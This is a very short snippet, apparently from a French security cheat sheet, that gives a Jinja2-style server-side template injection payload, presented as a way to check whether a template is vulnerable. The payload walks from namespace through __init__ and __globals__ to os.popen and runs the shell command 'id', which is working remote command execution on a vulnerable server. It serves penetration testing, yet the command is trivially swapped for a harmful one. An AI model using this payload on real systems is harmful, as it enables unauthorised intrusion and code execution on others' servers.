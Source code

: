 pour verifier si une template est vulnerable a un SSTI

```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```